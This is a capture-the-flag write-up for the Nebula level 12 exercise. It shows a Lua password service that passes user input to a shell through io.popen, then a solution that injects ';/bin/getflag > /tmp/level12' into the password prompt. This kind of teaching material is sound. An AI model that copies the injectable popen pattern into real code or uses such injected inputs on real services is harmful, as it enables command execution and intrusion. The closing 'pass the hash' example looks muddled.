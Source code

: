 .. _nebula12:

.. role:: bash(code)
	  :language: bash

.. role:: lua(code)
	  :language: lua
	       
Nebula 12
=========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level12/

**Source Code**

.. code-block:: lua
		
		local socket = require("socket")
		local server = assert(socket.bind("127.0.0.1", 50001))

		function hash(password)
		    prog = io.popen("echo "..password.." | sha1sum", "r")
		    data = prog:read("*all")
		    prog:close()

		    data = string.sub(data, 1, 40)

		    return data
		end


		while 1 do
		    local client = server:accept()
		    client:send("Password: ")
		    client:settimeout(60)
		    local line, err = client:receive()
		    if not err then
		        print("trying " .. line) -- log from where ;\
			local h = hash(line)

			if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
			    client:send("Better luck next time\n");
			else
			    client:send("Congrats, your token is 413**CARRIER LOST**\n")
			end

		end

		client:close()
		end

Solution
--------

Execute :bash:`telnet` on localhost on port 50001

:bash:`$ telnet 127.0.0.1 50001`

When password is asked

:bash:`Password: 1;/bin/getflag > /tmp/level12;echo 1`

It will say better luck next time and it will close the connection

Then simply use cat the output file

:bash:`cat /tmp/level12`

In case you want to pass the hash it will be this way

:bash:`$ telnet 127.0.0.1 50001`

:bash:`Password: 4754a4f4bd5787accd33de887b9250a0691dd198;echo 1`


